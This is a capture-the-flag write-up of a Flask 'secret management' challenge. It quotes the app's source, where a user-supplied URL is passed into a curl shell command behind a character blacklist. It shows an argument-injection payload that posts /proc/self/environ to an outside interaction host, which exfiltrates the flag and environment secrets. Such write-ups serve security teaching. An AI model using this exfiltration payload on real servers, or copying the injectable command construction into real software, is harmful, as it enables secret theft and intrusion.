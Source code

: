 # OPA Secrets

The application source code was provided : https://github.com/congon4tor/opa_secrets

It's a flask application, the challenge descriptions says: *OPA! Check out our new secret management service* 

After signing up , we can add a secret by clicking on the `Create secret` button
![firefox_7rJil9jpkB](https://user-images.githubusercontent.com/31372554/133927976-ee43e760-73bc-44e1-abd0-2d3e151efcd8.png)

There are three more users on the application , which we can find from the app.py file. :

```python3
    u = [
        {
            "id": "1822f21a-d720-4494-a31f-943bec140789",
            "username": "congon4tor",
            "role": "admin",
            "password": os.getenv("AMDIN_PASSWORD", "qwerty123"),
        },
        {
            "id": "243eae36-621a-47a6-b306-841bbffbcac4",
            "username": "jellytalk",
            "role": "user",
            "password": "test",
        },
        {
            "id": "9d6492e1-c73d-4231-add7-7ea285fc98a1",
            "username": "pinkykoala",
            "role": "user",
            "password": "test",
        },
    ]
```
The `congon4tor` user has the flag stored as a secret in his acc.

On the profile settings page, http://challenge.ctf.games:30114/settings  it says *We will fetch the image from the provided URL* .


![firefox_xIEQUVNsPY](https://user-images.githubusercontent.com/31372554/133928080-c29fb7fa-0055-4a56-a64c-eb0c6bb6c7ca.png)



https://interact.projectdiscovery.io/#/

![chrome_EAOaKB80vA](https://user-images.githubusercontent.com/31372554/133928205-25849f2c-885c-44e8-94ca-daadf618d6d2.png)

You can notice the user agent it's curl, let's look more into the source code:

```python3
@app.route("/updateSettings", methods=["POST"])
def updateSettings():

    url = request.form.get("url")
    if not url:
        return redirect("settings?error=Missing parameters")

    if not session.get("id", None):
        return redirect("/signin?error=Please sign in")
    user_id = session.get("id")
    user = get_user(user_id)
    if not user:
        return redirect("/signin?error=Invalid session")

    if (
        ";" in url
        or "`" in url
        or "$" in url
        or "(" in url
        or "|" in url
        or "&" in url
        or "<" in url
        or ">" in url
    ):
        return redirect("settings?error=Invalid character")

    cmd = f"curl --request GET {url} --output ./static/images/{user['id']} --proto =http,https"
    status = os.system(cmd)
    if status != 0:
        return redirect("settings?error=Error fetching the image")

    user["picture"] = user_id

    return redirect("settings?success=Successfully updated the profile picture")
```

The above code checks for special characters in the url to avoid command injection but not from *argument Injection*. We can add our own argument to the curl command like change the request method, send post data,etc.

The flag is stored in the env variable.
```
    s = [
        {
            "id": "afce78a8-23d6-4f07-81f2-47c96ddb10cf",
            "name": "Flag",
            "value": os.getenv("FLAG", "TEST_FLAG"),
        },
        {
            "id": "d2e0704c-55a5-4a63-aad5-849798283da5",
            "name": "Test 1",
            "value": "test secret",
        },
        {
            "id": "491e16d2-fd2b-4965-bcb6-5931ef61ed5b",
            "name": "Test 2",
            "value": "test secret 2",
        },
    ]
```

By adding an arguement like `-d @/proc/self/environ` this will send the content of the file `/proc/self/environ` to out controlled server.
![firefox_HZRIprVDFW](https://user-images.githubusercontent.com/31372554/133928548-8acbe206-0fd3-48e8-b3f6-ef3e321d91af.png)

`https://x.interact.sh  -X POST -d @/proc/self/environ`

![image](https://user-images.githubusercontent.com/31372554/133928677-81176d44-2ba9-4e7d-9d9c-02fddd832de0.png)

After the ctf was over found that this was an unintended way, if you try to reproduce the same now it won't



